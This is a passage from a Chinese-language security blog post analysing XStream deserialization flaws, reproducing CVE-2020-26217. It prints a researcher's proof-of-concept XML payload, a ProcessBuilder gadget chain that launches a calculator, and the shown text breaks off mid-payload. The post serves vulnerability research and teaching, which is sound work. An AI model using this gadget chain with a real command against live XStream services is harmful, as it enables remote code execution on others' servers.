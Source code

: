 # XStream反序列化详解（二）
[2021-05-10](https://m0d9.me/2021/05/10/XStream%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E8%AF%A6%E8%A7%A3%EF%BC%88%E4%BA%8C%EF%BC%89/)

前文已经讲过XStream的反序列化特性及漏洞产生的原因，以及<=1.4.6版本的几个gadget，在此背景上，本节准备复现披露的几个RCE CVE，正向分析下。

XStream团队很有意思，安全公告会把POC也公开，具体可以看[https://x-stream.github.io/security.html。](https://x-stream.github.io/security.html%E3%80%82)

[](#CVE-2020-26217 "CVE-2020-26217")CVE-2020-26217
--------------------------------------------------

这个其实就是Wh1t3p1g师傅中提到的第4个ImageIO gadget，在marshalsec gadgets ImageIO中也有，下面正向跟踪下。

### [](#Wh1t3p1g师傅的POC "Wh1t3p1g师傅的POC")Wh1t3p1g师傅的POC

```plain
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command class="java.util.Arrays$ArrayList">
                        <a class="string-array">
                          <string>open</string>
                          <string>-a</string>
                          <string>calculator.app</string>
                        </a>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
```